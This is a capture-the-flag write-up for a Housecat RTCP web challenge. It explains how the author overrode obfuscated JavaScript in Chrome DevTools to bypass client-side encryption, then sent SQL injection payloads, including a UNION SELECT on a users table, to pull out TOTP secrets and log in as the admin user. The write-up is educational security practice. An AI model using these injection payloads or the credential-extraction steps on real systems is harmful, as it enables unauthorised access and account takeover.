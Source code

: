 ```yaml
---
title: "Overriding JS to Perform SQL Injection (Housecat RTCP CTF Writeup)"
date: 2020-04-26T19:59:05+05:30
draft: false
categories:
 - CTF Writeups
 - Housecat RTCP CTF
tags:
 - web-ctf
 - housecat-rtcp-ctf
---
```


The TL;DR of this challenge was SQL injection and overriding javascript (to skip the `encrypt`/`decrypt` functions).

## Challenge

Challenge description:

> My friend Bob likes sockets so much, he made his own blog to talk about them. Can you check it out and make sure that it's secure like he assured me it is?
[Link](http://challs.houseplant.riceteacatpanda.wtf:30003)

## Solution

### JS Overriding

Rule #1 of web CTFs: ALWAYS check robots.txt first! This time I found:
```
User-Agent: *
Disallow: /admin
```

And in [/admin](http://challs.houseplant.riceteacatpanda.wtf:30003/admin) there is a comment saying you need to use TOTP (Time Based OTP. Who does not use a TOTP for 2-factor authentication in 2020?)

Okay, so back to the home page. It was using websockets to fetch blog posts. On Inspect-Elementing/View-Sourcing you find [main.js](http://challs.houseplant.riceteacatpanda.wtf:30003/js/main.js) which is obfuscated. I just used the default Prettifier in Chrome (the `{}` button in Sources tab) to deobfuscate it.

According to the Network tab, the packets were encrypted:
![Encrypted Data](/images/encrypted-network-houseplant.png)

I was going to rewrite the `encrypt` and `decrypt` functions in Python but that would've wasted a lot of time. So I just decided to override JS instead.

You have to enable overriding support first in Google Chrome (no idea about Firefox, I don't use it), and [here is the official guide](https://developers.google.com/web/updates/2018/01/devtools#overrides).

Then, you need to right click on the tab (`main.js` in this case) and you'll see `Save for overrides`. Press that, and you're ready!

While overriding, `console.log()` is your friend. Use it everywhere and see what's happening. I saw a function that decrypted the received data and I added my `console.log()` there:
```
const e = JSON.parse(i.utils.utf8.fromBytes(i.padding.pkcs7.strip(u.decrypt(t))));
console.log(e);
```

Cool! Now it printed everything! Now, I had to modify the sent requests. Just below the above line, there was:
```
if ("success" === e) {
    const t = parseInt(window.location.hash.substr(1));
    if (!isNaN(t))
        return r.send(o.encode(["getPost", t]));
    r.send(o.encode("listPosts"))
    }
}
```

And I found just what I wanted: a method to send data. In this case, it was getting the post ID from the URL, and sending that to get the post. Time for SQL Injection!

### SQL Injection

To ensure I could do a  SQL Injection attack, I made it:
```
r.send(o.encode(["getPost", "1 OR 5=5;--"]));
```

And yes, it worked! I got all the posts on the site. Output of `console.log`:
```
(3) ["post", "1 OR 2=2;--", Array(2)]
0: "post"
1: "1 OR 2=2;--"
2: Array(2)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

Explanation: I assumed the SQL statement was something like `SELECT * FROM posts WHERE id=<ID HERE>`.
So, my input made it: `SELECT * FROM posts WHERE id=1 OR 5=5;--`. Select everything from table posts where ID is 1 or 5=5 (which evaluates to True), aka fetch all posts. `;--` skips whatever is at the end, and terminates the query.

After that, I used `UNION` to join another `SELECT` query to get user information. In `UNION`, you have to make sure the number of columns match and hence the `1,1` thing:
```
r.send(o.encode(["getPost", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"]));
```

I didn't find `users` table or `*,1,1,0` on first attempt. It took like 20-30 attempts to get it right.

First I did `UNION SELECT 1,1,1,1,1,1` but that didn't work cause the last variable `hidden` was `1`, and it didn't return that. `UNION SELECT 1,1,1,1,1,0` returned what was expected.
Then I tried to get table names from `information_schema.tables` but that wasn't working. I tried to use some "common" table names and `users` worked. Then I did `UNION SELECT *,0 from users;--`, and kept adding `,1` till it worked. (Remember, `UNION` means same number of columns)

Here was the output:
```
(3) ["post", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--", Array(4)]
0: "post"
1: "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"
2: Array(4)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 1, title: "alice", author: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", text: 1, postDate: 1, …}
    2: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    3: {id: 2, title: "bob", author: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", text: 1, postDate: 1, …}
    length: 4
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

I took the TOTP secret key for `bob` and plugged it into a [TOTP Generator](https://totp.danhersam.com/).

On the admin page, I Inspect-Elemented, and uncommented the TOTP input field and deleted password field. After entering the username (`bob`) and the generated TOTP, I was able to log in and get the flag.

## Conclusion

It greatly helps SQL injection if you can create a local SQL table on your end and try creating SQL statements that work.

And, it's sometimes far more efficient to override javascript than to manually simulate requests (using `curl`/`python`) like many beginners do.

Ask me in the comments for any issues! And thanks jammy for the challenge!